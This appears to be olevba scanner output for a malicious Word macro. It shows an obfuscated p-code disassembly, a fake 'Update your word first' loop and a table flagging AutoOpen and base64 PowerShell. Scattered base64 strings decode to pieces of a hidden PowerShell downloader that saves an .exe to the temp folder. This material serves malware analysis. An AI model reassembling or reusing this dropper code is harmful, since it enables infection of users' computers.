' 	LitDI2 0x001F 
' 	St u6Bvs 
' Line #314:
' 	Dim 
' 	VarDefn lw2Y5TVr
' Line #315:
' 	Ld rMtiG7P 
' 	Ld JFvbEt6 
' 	Concat 
' 	St lw2Y5TVr 
' Line #316:
' 	Dim 
' 	VarDefn NVuAyL (As Double)
' Line #317:
' 	LitR8 0x2197 0xAB56 0xAE76 0x40DB 
' 	ArgsLd Round 0x0001 
' 	St NVuAyL 
' Line #318:
' 	Dim 
' 	VarDefn ALQYWvo
' Line #319:
' 	Ld iBfGA 
' 	Ld vbUpperCase 
' 	ArgsLd StrConv 0x0002 
' 	St ALQYWvo 
' Line #320:
' 	Dim 
' 	VarDefn r1Zfu4L (As Byte)
' Line #321:
' 	LitDI2 0x0062 
' 	St r1Zfu4L 
' Line #322:
' 	Dim 
' 	VarDefn wTG4CdkIg (As Double)
' Line #323:
' 	LitR8 0xF0B1 0x6DCD 0x121B 0x40B8 
' 	St wTG4CdkIg 
' Line #324:
' 	Dim 
' 	VarDefn A0qyjz (As Integer)
' Line #325:
' 	LitDI2 0x05F4 
' 	UMi 
' 	FnSgn 
' 	St A0qyjz 
' Line #326:
' 	Dim 
' 	VarDefn CCFsK3 (As Long)
' Line #327:
' 	LitDI2 0x0000 
' 	St CCFsK3 
' Line #328:
' 	Dim 
' 	VarDefn LUcGi3JSa (As Byte)
' Line #329:
' 	LitDI2 0x00D2 
' 	St LUcGi3JSa 
' Line #330:
' 	Dim 
' 	VarDefn vNG3xmM1 (As String)
' Line #331:
' 	LitStr 0x001F "GF0aDticmVt9Y2F0Y2h7d3JpdGUtaG9"
' 	St vNG3xmM1 
' Line #332:
' 	Dim 
' 	VarDefn JDqWL8ju (As Double)
' Line #333:
' 	LitR8 0x8750 0x20FC 0x01D6 0x40EC 
' 	FnSgn 
' 	St JDqWL8ju 
' Line #334:
' 	Dim 
' 	VarDefn kbvO5 (As Double)
' Line #335:
' 	LitR8 0xD401 0x51FD 0x9D23 0x40DE 
' 	ArgsLd Round 0x0001 
' 	St kbvO5 
' Line #336:
' 	Dim 
' 	VarDefn yrHDvt (As Double)
' Line #337:
' 	LitR8 0x842C 0x1205 0x9C13 0x40EC 
' 	FnSgn 
' 	St yrHDvt 
' Line #338:
' 	Dim 
' 	VarDefn zFa9I (As Long)
' Line #339:
' 	LitDI4 0x8B18 0x0B3D 
' 	UMi 
' 	St zFa9I 
' Line #340:
' 	Dim 
' 	VarDefn cBLUslX (As Integer)
' Line #341:
' 	LitDI2 0x4068 
' 	UMi 
' 	St cBLUslX 
' Line #342:
' 	Dim 
' 	VarDefn PKMZU (As Byte)
' Line #343:
' 	LitDI2 0x0080 
' 	St PKMZU 
' Line #344:
' 	Dim 
' 	VarDefn VwJuvIUs
' Line #345:
' 	LitStr 0x001E "zdCAkXyHRpb24uTWVzc2FnZTt9fQ=="
' 	St VwJuvIUs 
' Line #346:
' 	Dim 
' 	VarDefn FtLGF (As String)
' Line #347:
' 	Ld LsDjbVLJ 
' 	ArgsLd Val 0x0001 
' 	St FtLGF 
' Line #348:
' 	Dim 
' 	VarDefn Oh18Ibm
' Line #349:
' 	Ld IyvAk 
' 	ArgsLd Val 0x0001 
' 	St Oh18Ibm 
' Line #350:
' 	Dim 
' 	VarDefn L3dt6Nfr (As Boolean)
' Line #351:
' 	LitVarSpecial (True)
' 	St L3dt6Nfr 
' Line #352:
' 	Dim 
' 	VarDefn lv2a4BU (As Long)
' Line #353:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St lv2a4BU 
' Line #354:
' 	Dim 
' 	VarDefn SaynoUk (As Double)
' Line #355:
' 	LitR8 0x2C4E 0xEB62 0x3A35 0x40DB 
' 	St SaynoUk 
' Line #356:
' 	Dim 
' 	VarDefn iVAbrO (As Single)
' Line #357:
' 	LitR8 0xFCD2 0xBB52 0x18E5 0x40D7 
' 	St iVAbrO 
' Line #358:
' 	Dim 
' 	VarDefn CCJjoXh5y (As Boolean)
' Line #359:
' 	LitVarSpecial (True)
' 	St CCJjoXh5y 
' Line #360:
' 	Dim 
' 	VarDefn GXLys (As Double)
' Line #361:
' 	LitR8 0x201C 0xBDFB 0xFD71 0x40EE 
' 	ArgsLd Round 0x0001 
' 	St GXLys 
' Line #362:
' 	Dim 
' 	VarDefn xPEFYc (As Single)
' Line #363:
' 	LitR8 0xD2B1 0x83A2 0xBDF0 0x40E3 
' 	FnFix 
' 	St xPEFYc 
' Line #364:
' 	Dim 
' 	VarDefn cUx8HSZ (As Long)
' Line #365:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St cUx8HSZ 
' Line #366:
' 	Dim 
' 	VarDefn z8LwWmri0 (As Boolean)
' Line #367:
' 	LitVarSpecial (True)
' 	St z8LwWmri0 
' Line #368:
' 	Dim 
' 	VarDefn sT8yZmR0C (As Single)
' Line #369:
' 	LitR8 0x21F3 0x0740 0xDA14 0x40E4 
' 	FnFix 
' 	St sT8yZmR0C 
' Line #370:
' 	Dim 
' 	VarDefn p9YId0isK
' Line #371:
' 	Ld vNG3xmM1 
' 	Ld VwJuvIUs 
' 	Concat 
' 	St p9YId0isK 
' Line #372:
' 	Dim 
' 	VarDefn yOa0X2 (As Long)
' Line #373:
' 	LitDI4 0x3082 0x2D97 
' 	UMi 
' 	St yOa0X2 
' Line #374:
' 	Dim 
' 	VarDefn Y2NQUejqp (As Boolean)
' Line #375:
' 	LitVarSpecial (True)
' 	St Y2NQUejqp 
' Line #376:
' 	Dim 
' 	VarDefn NJHsc
' Line #377:
' 	LitStr 0x0001 "7"
' 	St NJHsc 
' Line #378:
' 	Dim 
' 	VarDefn pZr8u (As Long)
' Line #379:
' 	LitDI4 0x269E 0x2E28 
' 	UMi 
' 	St pZr8u 
' Line #380:
' 	Dim 
' 	VarDefn QNCIG (As Byte)
' Line #381:
' 	LitDI2 0x0051 
' 	St QNCIG 
' Line #382:
' 	Dim 
' 	VarDefn Ou8LqgZ (As Double)
' Line #383:
' 	LitR8 0x95DF 0xFBC2 0x8E5E 0x40E0 
' 	FnSgn 
' 	St Ou8LqgZ 
' Line #384:
' 	Dim 
' 	VarDefn keKsv92z
' Line #385:
' 	Ld YkV1p 
' 	FnLen 
' 	St keKsv92z 
' Line #386:
' 	Dim 
' 	VarDefn rjrcMgWa (As Integer)
' Line #387:
' 	LitDI2 0x325A 
' 	FnSgn 
' 	St rjrcMgWa 
' Line #388:
' 	Dim 
' 	VarDefn n0HqZCe7d (As Long)
' Line #389:
' 	LitDI2 0x0000 
' 	St n0HqZCe7d 
' Line #390:
' 	Dim 
' 	VarDefn Px2v6w7yU (As Integer)
' Line #391:
' 	LitDI2 0x5247 
' 	St Px2v6w7yU 
' Line #392:
' 	Dim 
' 	VarDefn xluYE (As Single)
' Line #393:
' 	LitR8 0xF901 0xBA3D 0xCA57 0x40EE 
' 	FnSgn 
' 	St xluYE 
' Line #394:
' 	Dim 
' 	VarDefn JFyviOR (As Integer)
' Line #395:
' 	LitDI2 0x5F48 
' 	FnSgn 
' 	St JFyviOR 
' Line #396:
' 	Dim 
' 	VarDefn h8mHA
' Line #397:
' 	LitStr 0x0018 "mFuZG9tLm5leHQoMSwgNjU1M"
' 	St h8mHA 
' Line #398:
' 	Dim 
' 	VarDefn WdpeGhumO (As Double)
' Line #399:
' 	LitR8 0x81C4 0x6283 0xBB92 0x40C0 
' 	FnSgn 
' 	St WdpeGhumO 
' Line #400:
' 	Dim 
' 	VarDefn ymLV1o (As Double)
' Line #401:
' 	LitR8 0x5E3D 0x46F2 0xC9C6 0x40D3 
' 	FnSgn 
' 	St ymLV1o 
' Line #402:
' 	Dim 
' 	VarDefn lKQrIz (As Long)
' Line #403:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St lKQrIz 
' Line #404:
' 	Dim 
' 	VarDefn BCv9i (As Double)
' Line #405:
' 	LitR8 0xC3F2 0x0A94 0x9721 0x40E4 
' 	FnSgn 
' 	St BCv9i 
' Line #406:
' 	Dim 
' 	VarDefn wPIB52bXi (As Long)
' Line #407:
' 	LitDI4 0x9A98 0x31B2 
' 	UMi 
' 	St wPIB52bXi 
' Line #408:
' 	Dim 
' 	VarDefn iuedZJ9 (As Byte)
' Line #409:
' 	LitDI2 0x002D 
' 	St iuedZJ9 
' Line #410:
' 	Dim 
' 	VarDefn PmHWBVG7 (As Long)
' Line #411:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St PmHWBVG7 
' Line #412:
' 	Dim 
' 	VarDefn jd8HUvI (As Long)
' Line #413:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St jd8HUvI 
' Line #414:
' 	Dim 
' 	VarDefn kJs6G (As String)
' Line #415:
' 	Ld ADvReu 
' 	FnLen 
' 	St kJs6G 
' Line #416:
' 	Dim 
' 	VarDefn qoJXC (As Boolean)
' Line #417:
' 	LitVarSpecial (True)
' 	St qoJXC 
' Line #418:
' 	Dim 
' 	VarDefn maAdPburq (As Boolean)
' Line #419:
' 	LitVarSpecial (False)
' 	St maAdPburq 
' Line #420:
' 	Dim 
' 	VarDefn ArvU6 (As Byte)
' Line #421:
' 	LitDI2 0x005C 
' 	St ArvU6 
' Line #422:
' 	Dim 
' 	VarDefn R0Di6Q (As Long)
' Line #423:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St R0Di6Q 
' Line #424:
' 	Dim 
' 	VarDefn FdLAvf2 (As Single)
' Line #425:
' 	LitR8 0xBAF2 0x6AAE 0x0FB9 0x40E0 
' 	ArgsLd Val 0x0001 
' 	St FdLAvf2 
' Line #426:
' 	Dim 
' 	VarDefn bCbHtm (As Boolean)
' Line #427:
' 	LitVarSpecial (True)
' 	St bCbHtm 
' Line #428:
' 	Dim 
' 	VarDefn zjWUDC (As Integer)
' Line #429:
' 	LitDI2 0x1E68 
' 	UMi 
' 	FnSgn 
' 	St zjWUDC 
' Line #430:
' 	Dim 
' 	VarDefn c0A7o (As Boolean)
' Line #431:
' 	LitVarSpecial (False)
' 	St c0A7o 
' Line #432:
' 	Dim 
' 	VarDefn r9avNAg (As Single)
' Line #433:
' 	LitR8 0x3A1D 0x6F3D 0xB4BA 0x40CD 
' 	FnSgn 
' 	St r9avNAg 
' Line #434:
' 	Dim 
' 	VarDefn mDAkNzgL7
' Line #435:
' 	LitStr 0x0023 "zYpOYXRoID0gJGVudjp0ZW1wICsgJ1wnICs"
' 	St mDAkNzgL7 
' Line #436:
' 	Dim 
' 	VarDefn ThHBT3JqI (As Boolean)
' Line #437:
' 	LitVarSpecial (False)
' 	St ThHBT3JqI 
' Line #438:
' 	Dim 
' 	VarDefn YkV5GThAu (As Double)
' Line #439:
' 	LitR8 0xFF98 0xFF11 0xD53B 0x40C7 
' 	St YkV5GThAu 
' Line #440:
' 	Dim 
' 	VarDefn RvuCF (As Boolean)
' Line #441:
' 	LitVarSpecial (False)
' 	St RvuCF 
' Line #442:
' 	Dim 
' 	VarDefn Rtvi723 (As Long)
' Line #443:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St Rtvi723 
' Line #444:
' 	Dim 
' 	VarDefn OfAzTcng (As Boolean)
' Line #445:
' 	LitVarSpecial (True)
' 	St OfAzTcng 
' Line #446:
' 	Dim 
' 	VarDefn c8olK7W
' Line #447:
' 	Ld hLT9CAvFB 
' 	ArgsLd tnrCg4 0x0001 
' 	St c8olK7W 
' Line #448:
' 	Dim 
' 	VarDefn zuWs2 (As Double)
' Line #449:
' 	LitR8 0xE83D 0xA28E 0x716A 0x408A 
' 	St zuWs2 
' Line #450:
' 	Dim 
' 	VarDefn jpWkxHnm
' Line #451:
' 	LitStr 0x0016 "gJG5hbKyAnLmV4ZSc7Zm9y"
' 	St jpWkxHnm 
' Line #452:
' 	Dim 
' 	VarDefn tB65ZJd9 (As Double)
' Line #453:
' 	LitR8 0x4E11 0xE1C7 0x43ED 0x408E 
' 	FnSgn 
' 	St tB65ZJd9 
' Line #454:
' 	Dim 
' 	VarDefn sjRGThi2 (As Boolean)
' Line #455:
' 	LitVarSpecial (True)
' 	St sjRGThi2 
' Line #456:
' 	Dim 
' 	VarDefn UAYIZ1CX (As Boolean)
' Line #457:
' 	LitVarSpecial (True)
' 	St UAYIZ1CX 
' Line #458:
' 	Dim 
' 	VarDefn eERkPN4K8 (As Double)
' Line #459:
' 	LitR8 0xD57E 0xB239 0x38B1 0x40EC 
' 	St eERkPN4K8 
' Line #460:
' 	Dim 
' 	VarDefn d2wys (As Boolean)
' Line #461:
' 	LitVarSpecial (False)
' 	St d2wys 
' Line #462:
' 	Dim 
' 	VarDefn izeyOR (As Boolean)
' Line #463:
' 	LitVarSpecial (True)
' 	St izeyOR 
' Line #464:
' 	Dim 
' 	VarDefn YhaZd03X (As Integer)
' Line #465:
' 	LitDI2 0x6879 
' 	FnSgn 
' 	St YhaZd03X 
' Line #466:
' 	Dim 
' 	VarDefn EGVA1DMi5 (As Integer)
' Line #467:
' 	LitDI2 0x76C9 
' 	UMi 
' 	FnSgn 
' 	St EGVA1DMi5 
' Line #468:
' 	Dim 
' 	VarDefn Mjh2rD (As Long)
' Line #469:
' 	LitDI2 0x0000 
' 	St Mjh2rD 
' Line #470:
' 	Dim 
' 	VarDefn oq86icGME (As Byte)
' Line #471:
' 	LitDI2 0x00AE 
' 	St oq86icGME 
' Line #472:
' 	Dim 
' 	VarDefn g7DqR
' Line #473:
' 	Ld pOPc5WnrZ 
' 	FnLen 
' 	St g7DqR 
' Line #474:
' 	Dim 
' 	VarDefn MAmxip (As Integer)
' Line #475:
' 	LitDI2 0x39CC 
' 	FnSgn 
' 	St MAmxip 
' Line #476:
' 	Dim 
' 	VarDefn Pcm8x0JWg (As Boolean)
' Line #477:
' 	LitVarSpecial (True)
' 	St Pcm8x0JWg 
' Line #478:
' 	Dim 
' 	VarDefn PIEqQBG (As Double)
' Line #479:
' 	LitR8 0x76B4 0x0BBE 0xDA28 0x4095 
' 	FnInt 
' 	St PIEqQBG 
' Line #480:
' 	Dim 
' 	VarDefn HZtnws
' Line #481:
' 	Ld h8mHA 
' 	Ld mDAkNzgL7 
' 	Concat 
' 	Ld jpWkxHnm 
' 	Concat 
' 	St HZtnws 
' Line #482:
' 	Dim 
' 	VarDefn xRgONcKLq (As Byte)
' Line #483:
' 	LitDI2 0x001D 
' 	St xRgONcKLq 
' Line #484:
' 	Dim 
' 	VarDefn Xgx2bDy (As Integer)
' Line #485:
' 	LitDI2 0x1CBE 
' 	UMi 
' 	FnSgn 
' 	St Xgx2bDy 
' Line #486:
' 	Dim 
' 	VarDefn QApqIJU (As Double)
' Line #487:
' 	LitR8 0x3F3E 0x7B45 0x46F0 0x40D9 
' 	FnSgn 
' 	St QApqIJU 
' Line #488:
' 	Dim 
' 	VarDefn ZFs9QC (As Integer)
' Line #489:
' 	LitDI2 0x7CC0 
' 	UMi 
' 	FnSgn 
' 	St ZFs9QC 
' Line #490:
' 	Dim 
' 	VarDefn mK7ov (As Integer)
' Line #491:
' 	LitDI2 0x0C86 
' 	UMi 
' 	FnSgn 
' 	St mK7ov 
' Line #492:
' 	Dim 
' 	VarDefn LGFdrW (As Long)
' Line #493:
' 	LitDI4 0xBD5E 0x7A13 
' 	UMi 
' 	St LGFdrW 
' Line #494:
' 	Dim 
' 	VarDefn SHKT4O (As Byte)
' Line #495:
' 	LitDI2 0x00BC 
' 	St SHKT4O 
' Line #496:
' 	Dim 
' 	VarDefn B09gtbuk (As Double)
' Line #497:
' 	LitR8 0x6717 0xBC3C 0xA5AF 0x40E0 
' 	St B09gtbuk 
' Line #498:
' 	Dim 
' 	VarDefn atLH4 (As String)
' Line #499:
' 	Ld fd8RJxBn 
' 	ArgsLd LTrim 0x0001 
' 	St atLH4 
' Line #500:
' 	Dim 
' 	VarDefn jyt96Cqjn (As Integer)
' Line #501:
' 	LitDI2 0x72C6 
' 	St jyt96Cqjn 
' Line #502:
' 	Dim 
' 	VarDefn R0abDIn5E (As Integer)
' Line #503:
' 	LitDI2 0x756A 
' 	St R0abDIn5E 
' Line #504:
' 	Dim 
' 	VarDefn kU1EBq (As String)
' Line #505:
' 	LitStr 0x000E "IFdTY3JpcHQulb"
' 	St kU1EBq 
' Line #506:
' 	Dim 
' 	VarDefn WcpUY (As Single)
' Line #507:
' 	LitR8 0x8904 0xFDFB 0x7777 0x40BB 
' 	FnSgn 
' 	St WcpUY 
' Line #508:
' 	Dim 
' 	VarDefn f8CtA07 (As Single)
' Line #509:
' 	LitR8 0x5E97 0xB1DA 0xA90B 0x40E6 
' 	St f8CtA07 
' Line #510:
' 	Dim 
' 	VarDefn y319u6G5Z (As Byte)
' Line #511:
' 	LitDI2 0x00F4 
' 	St y319u6G5Z 
' Line #512:
' 	Dim 
' 	VarDefn n2JYby (As Double)
' Line #513:
' 	LitR8 0x59FF 0x27E7 0x21C0 0x409E 
' 	St n2JYby 
' Line #514:
' 	Dim 
' 	VarDefn tkG7SPHoj (As Boolean)
' Line #515:
' 	LitVarSpecial (False)
' 	St tkG7SPHoj 
' Line #516:
' 	Dim 
' 	VarDefn aGCQ2osk (As Boolean)
' Line #517:
' 	LitVarSpecial (True)
' 	St aGCQ2osk 
' Line #518:
' 	Dim 
' 	VarDefn G3yPVL (As String)
' Line #519:
' 	Ld G4vD1MTHo 
' 	ArgsLd tnrCg4 0x0001 
' 	St G3yPVL 
' Line #520:
' 	Dim 
' 	VarDefn T5UyouH (As Long)
' Line #521:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St T5UyouH 
' Line #522:
' 	Dim 
' 	VarDefn EflZ4Nw (As Single)
' Line #523:
' 	LitR8 0x693A 0x2644 0xA78B 0x4095 
' 	St EflZ4Nw 
' Line #524:
' 	Dim 
' 	VarDefn DUXQnL (As Double)
' Line #525:
' 	LitR8 0x86CF 0x7273 0x295C 0x40E3 
' 	St DUXQnL 
' Line #526:
' 	Dim 
' 	VarDefn AWAlzLPgR (As Long)
' Line #527:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St AWAlzLPgR 
' Line #528:
' 	Dim 
' 	VarDefn V9tuzoQb (As String)
' Line #529:
' 	LitStr 0x0001 "H"
' 	ArgsLd AscB 0x0001 
' 	St V9tuzoQb 
' Line #530:
' 	Dim 
' 	VarDefn wewn4xZ
' Line #531:
' 	LitStr 0x003B "Gw7JHdlYmNsaWVudCA9IG5ldy1vYmplYJHJhbmRvbSA9IG5ldy1vYmplY3Q"
' 	St wewn4xZ 
' Line #532:
' 	Dim 
' 	VarDefn pYdk3 (As Long)
' Line #533:
' 	LitDI4 0x90AA 0x1D39 
' 	UMi 
' 	St pYdk3 
' Line #534:
' 	Dim 
' 	VarDefn Y7e5ML (As Single)
' Line #535:
' 	LitR8 0xA2A6 0x649C 0xBDEE 0x40C1 
' 	ArgsLd Val 0x0001 
' 	St Y7e5ML 
' Line #536:
' 	Dim 
' 	VarDefn rea05N (As Boolean)
' Line #537:
' 	LitVarSpecial (False)
' 	St rea05N 
' Line #538:
' 	Dim 
' 	VarDefn mUj34k (As String)
' Line #539:
' 	Ld Th8k4rf 
' 	ArgsLd tnrCg4 0x0001 
' 	St mUj34k 
' Line #540:
' 	Dim 
' 	VarDefn eYW5eo (As Double)
' Line #541:
' 	LitR8 0x5529 0x1FDF 0x3DD6 0x40E6 
' 	FnInt 
' 	St eYW5eo 
' Line #542:
' 	Dim 
' 	VarDefn xqBiHuUIv (As Integer)
' Line #543:
' 	LitDI2 0x40B8 
' 	UMi 
' 	FnSgn 
' 	St xqBiHuUIv 
' Line #544:
' 	Dim 
' 	VarDefn Tuznthi
' Line #545:
' 	Ld imLYv 
' 	ArgsLd Val 0x0001 
' 	St Tuznthi 
' Line #546:
' 	Dim 
' 	VarDefn xtK7mq (As Single)
' Line #547:
' 	LitR8 0xEA73 0xD5F6 0x19AD 0x40AE 
' 	ArgsLd Round 0x0001 
' 	St xtK7mq 
' Line #548:
' 	Dim 
' 	VarDefn rElmD (As Double)
' Line #549:
' 	LitR8 0xE4AD 0xFF60 0x7BC8 0x40DC 
' 	FnSgn 
' 	St rElmD 
' Line #550:
' 	Dim 
' 	VarDefn gblyWotH
' Line #551:
' 	LitStr 0x0006 "gcmFuZ"
' 	St gblyWotH 
' Line #552:
' 	Dim 
' 	VarDefn s7qEy6 (As Long)
' Line #553:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St s7qEy6 
' Line #554:
' 	Dim 
' 	VarDefn d1l5Gc (As String)
' Line #555:
' 	LitStr 0x0001 "4"
' 	ArgsLd Val 0x0001 
' 	St d1l5Gc 
' Line #556:
' 	Dim 
' 	VarDefn spvPX8i (As Double)
' Line #557:
' 	LitR8 0xB06C 0x46D5 0x5E1E 0x40BA 
' 	FnSgn 
' 	St spvPX8i 
' Line #558:
' 	Dim 
' 	VarDefn UXqajm6yQ (As Single)
' Line #559:
' 	LitR8 0x48FA 0x337A 0x6F92 0x40DE 
' 	FnSgn 
' 	St UXqajm6yQ 
' Line #560:
' 	Dim 
' 	VarDefn s81OupY (As Boolean)
' Line #561:
' 	LitVarSpecial (False)
' 	St s81OupY 
' Line #562:
' 	Dim 
' 	VarDefn XpxG0 (As Single)
' Line #563:
' 	LitR8 0x4F8F 0x840F 0xBC7F 0x40D6 
' 	St XpxG0 
' Line #564:
' 	Dim 
' 	VarDefn S4TUf (As Boolean)
' Line #565:
' 	LitVarSpecial (True)
' 	St S4TUf 
' Line #566:
' 	Dim 
' 	VarDefn JAxkfj (As Byte)
' Line #567:
' 	LitDI2 0x009A 
' 	St JAxkfj 
' Line #568:
' 	Dim 
' 	VarDefn G3SrKJc (As Single)
' Line #569:
' 	LitStr 0x0033 "cE93ZXJzSGVMTCAtV2luRG93c1R5bGUgaGlkZGVuIC1lIEpBQmo"
' 	St _B_var_NHM2dp 
' Line #570:
' 	LitR8 0x013E 0xAE03 0x8EC2 0x40B5 
' 	St G3SrKJc 
' Line #571:
' 	Dim 
' 	VarDefn XtKrisO (As Single)
' Line #572:
' 	LitR8 0x8AB5 0x9E07 0x4A3F 0x40BD 
' 	FnFix 
' 	St XtKrisO 
' Line #573:
' 	Dim 
' 	VarDefn hhS4DB
' Line #574:
' 	Ld SdCMbO2Vk 
' 	ArgsLd Trim 0x0001 
' 	St hhS4DB 
' Line #575:
' 	Dim 
' 	VarDefn bHXTusbF (As Byte)
' Line #576:
' 	LitDI2 0x0089 
' 	St bHXTusbF 
' Line #577:
' 	Dim 
' 	VarDefn o1ivuC (As Double)
' Line #578:
' 	LitR8 0xC88B 0xC354 0x75FD 0x40C3 
' 	ArgsLd Round 0x0001 
' 	St o1ivuC 
' Line #579:
' 	Dim 
' 	VarDefn wYPm7
' Line #580:
' 	Ld kU1EBq 
' 	Ld wewn4xZ 
' 	Concat 
' 	Ld gblyWotH 
' 	Concat 
' 	St wYPm7 
' Line #581:
' 	Dim 
' 	VarDefn xS64130k (As Integer)
' Line #582:
' 	LitDI2 0x140A 
' 	St xS64130k 
' Line #583:
' 	Dim 
' 	VarDefn iU2lV (As Integer)
' Line #584:
' 	LitDI2 0x2E5E 
' 	UMi 
' 	St iU2lV 
' Line #585:
' 	Dim 
' 	VarDefn HAgiRQyf (As Integer)
' Line #586:
' 	LitDI2 0x40FA 
' 	UMi 
' 	St HAgiRQyf 
' Line #587:
' 	Dim 
' 	VarDefn BVCHOaME (As Integer)
' Line #588:
' 	LitDI2 0x238E 
' 	UMi 
' 	FnSgn 
' 	St BVCHOaME 
' Line #589:
' 	Dim 
' 	VarDefn qXdmPi4 (As Boolean)
' Line #590:
' 	LitVarSpecial (False)
' 	St qXdmPi4 
' Line #591:
' 	Dim 
' 	VarDefn vYm7lA (As Single)
' Line #592:
' 	LitR8 0x5BD3 0xF9AB 0xA47C 0x40EB 
' 	ArgsLd Round 0x0001 
' 	St vYm7lA 
' Line #593:
' 	Dim 
' 	VarDefn UaxWDZkhB
' Line #594:
' 	Ld PlTyHGvg 
' 	FnLen 
' 	St UaxWDZkhB 
' Line #595:
' 	Dim 
' 	VarDefn jQLHxk8e9 (As Double)
' Line #596:
' 	LitR8 0xEF9C 0x6268 0x9759 0x40DB 
' 	St jQLHxk8e9 
' Line #597:
' 	Dim 
' 	VarDefn Oc29GqMV7 (As Single)
' Line #598:
' 	LitR8 0x8EC4 0x04D8 0x0C16 0x40D2 
' 	FnSgn 
' 	St Oc29GqMV7 
' Line #599:
' 	Dim 
' 	VarDefn lzj6O (As Byte)
' Line #600:
' 	LitDI2 0x009A 
' 	St lzj6O 
' Line #601:
' 	Dim 
' 	VarDefn itDG8nPw (As String)
' Line #602:
' 	LitStr 0x0001 "7"
' 	ArgsLd Val 0x0001 
' 	St itDG8nPw 
' Line #603:
' 	Dim 
' 	VarDefn GW7ZCr0 (As Boolean)
' Line #604:
' 	LitVarSpecial (True)
' 	St GW7ZCr0 
' Line #605:
' 	Dim 
' 	VarDefn qOGCTn (As Byte)
' Line #606:
' 	LitDI2 0x0072 
' 	St qOGCTn 
' Line #607:
' 	Ld _B_var_NHM2dp 
' 	LitStr 0x0001 "="
' 	Concat 
' 	ArgsLd JERWafGg 0x0001 
' 	St PlzT 
' Line #608:
' 	EndSub 
' Macros/VBA/Module1 - 1880 bytes
' Line #0:
' 	FuncDefn (Sub Quit())
' Line #1:
' 	ArgsLd waitTill 0x0000 
' 	LitStr 0x0008 "11:11:11"
' 	ArgsLd Now 0x0001 
' 	Add 
' 	St _B_var_cwBlAG4 
' Line #2:
' 	ArgsLd waitTill 0x0000 
' 	Ld _B_var_cwBlAG4 
' 	Lt 
' 	While 
' Line #3:
' 	LitStr 0x0016 "Update your word first"
' 	ArgsCall _B_var_a 0x0001 
' Line #4:
' 	Ld currentDate 
' 	ArgsMemCall Application 0x0000 
' Line #5:
' 	Wend 
' Line #6:
' 	EndSub 
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|Suspicious|Lib                 |May run code from a DLL                      |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Call                |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|powershell          |May run PowerShell commands (obfuscation:    |
|          |                    |Base64)                                      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Hex String|I%&8                |49252638                                     |
|Hex String|UTgt                |55546774                                     |
|Hex String|`E&B                |60452642                                     |
|Hex String| isPp               |2069735070                                   |
|Hex String|Y4@c                |59344063                                     |
|Hex String|UfHy                |55664879                                     |
|Hex String|q9pA                |71397041                                     |
|Hex String|'rQY                |27725159                                     |
|Hex String|Gt2G                |47743247                                     |
|Hex String|yBrw                |79427277                                     |
|Hex String|6T`W                |36546057                                     |
|Hex String|9f1F                |39663146                                     |
|Hex String|4@Ew                |34404577                                     |
|Base64    |Lor                 |TG9y                                         |
|String    |                    |                                             |
|Base64    |em                  |ZW0g                                         |
|String    |                    |                                             |
|Base64    |ips                 |aXBz                                         |
|String    |                    |                                             |
|Base64    |um                  |dW0g                                         |
|String    |                    |                                             |
|Base64    |dol                 |ZG9s                                         |
|String    |                    |                                             |
|Base64    |or                  |b3Ig                                         |
|String    |                    |                                             |
|Base64    |sit                 |c2l0                                         |
|String    |                    |                                             |
|Base64    | am                 |IGFt                                         |
|String    |                    |                                             |
|Base64    |et                  |ZXQg                                         |
|String    |                    |                                             |
|Base64    |occ                 |b2Nj                                         |
|String    |                    |                                             |
|Base64    |aec                 |YWVj                                         |
|String    |                    |                                             |
|Base64    |at,                 |YXQs                                         |
|String    |                    |                                             |
|Base64    | vo                 |IHZv                                         |
|String    |                    |                                             |
|Base64    |lup                 |bHVw                                         |
|String    |                    |                                             |
|Base64    |tat                 |dGF0                                         |
|String    |                    |                                             |
|Base64    |e e                 |ZSBl                                         |
|String    |                    |                                             |
|Base64    |u t                 |dSB0                                         |
|String    |                    |                                             |
|Base64    |emp                 |ZW1w                                         |
|String    |                    |                                             |
|Base64    |con                 |Y29u                                         |
|String    |                    |                                             |
|Base64    |sec                 |c2Vj                                         |
|String    |                    |                                             |
|Base64    |tet                 |dGV0                                         |
|String    |                    |                                             |
|Base64    |ur                  |dXIg                                         |
|String    |                    |                                             |
|Base64    |qui                 |cXVp                                         |
|String    |                    |                                             |
|Base64    | pa                 |IHBh                                         |
|String    |                    |                                             |
|Base64    |ria                 |cmlh                                         |
|String    |                    |                                             |
|Base64    |tur                 |dHVy                                         |
|String    |                    |                                             |
|Base64    | ve                 |IHZl                                         |
|String    |                    |                                             |
|Base64    |nia                 |bmlh                                         |
|String    |                    |                                             |
|Base64    |m c                 |bSBj                                         |
|String    |                    |                                             |
|Base64    |ons                 |b25z                                         |
|String    |                    |                                             |
|Base64    |ect                 |ZWN0                                         |
|String    |                    |                                             |
|Base64    |etu                 |ZXR1                                         |
|String    |                    |                                             |
|Base64    |r a                 |ciBh                                         |
|String    |                    |                                             |
|Base64    |liq                 |bGlx                                         |
|String    |                    |                                             |
|Base64    |ua                  |dWEg                                         |
|String    |                    |                                             |
|Base64    |ali                 |YWxp                                         |
|String    |                    |                                             |
|Base64    |p f                 |cCBm                                         |
|String    |                    |                                             |
|Base64    |ugi                 |dWdp                                         |
|String    |                    |                                             |
|Base64    |at                  |YXQg                                         |
|String    |                    |                                             |
|Base64    |ore                 |b3Jl                                         |
|String    |                    |                                             |
|Base64    | de                 |IGRl                                         |
|String    |                    |                                             |
|Base64    |ser                 |c2Vy                                         |
|String    |                    |                                             |
|Base64    |unt                 |dW50                                         |
